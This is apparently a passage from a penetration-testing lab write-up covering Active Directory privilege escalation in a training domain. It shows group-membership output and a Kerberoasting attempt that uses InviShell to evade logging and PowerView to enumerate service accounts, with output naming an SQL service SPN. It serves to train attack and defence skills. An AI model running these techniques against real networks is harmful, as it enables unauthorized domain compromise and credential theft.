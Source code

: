 `whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555 Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators👥                   Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner✅

[SNIP]
```
🚩

---

### Domain Privilege Escalation | Kerberoasting (with PowerView, Rubeus, John)

3) **Kerberoasting Attack for Domain Privilege Escalation** (unsuccessful ❌)

Description: Enumerated service accounts with Service Principal Names (SPNs) and performed a Kerberoasting attack on `sqlserversync`. Successfully extracted a Kerberos TGS ticket but failed to crack the password using multiple wordlists, indicating a strong password policy.

![studvm | studentuser $>](https://custom-icon-badges.demolab.com/badge/studvm-studentuser%20[%24>]-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`Import-Module C:\AD\Tools\PowerView.ps1`

`Get-DomainUser -SPN`:
```
[SNIP]

logoncount            : 8
badpasswordtime       : 12/31/1600 4:00:00 PM
distinguishedname     : CN=sqlserver sync,CN=Users,DC=tech,DC=finance,DC=corp
objectclass           : {top, person, organizationalPerson, user}
displayname           : sqlserver sync
lastlogontimestamp    : 2/4/2022 5:36:37 AM
userprincipalname     : sqlserversync
samaccountname        : sqlserversync👤
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 2/6/2022 7:47:34 AM
instancetype          : 4
usncreated            : 26345
objectguid            : 49050a8e-94f9-4ef3-9fdb-fc488cddf552
sn                    : sync
lastlogoff            : 12/31/1600 4:00:00 PM
whencreated           : 2/4/2022 1:16:06 PM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=finance,DC=corp
dscorepropagationdata : {2/4/2022 1:16:34 PM, 2/4/2022 1:16:06 PM, 1/1/1601 12:00:01 AM}
serviceprincipalname📌: MSSQLSvc📌/dbserver31.tech.finance.corp📌
givenname             : sqlserver
usnchanged            : 37100
```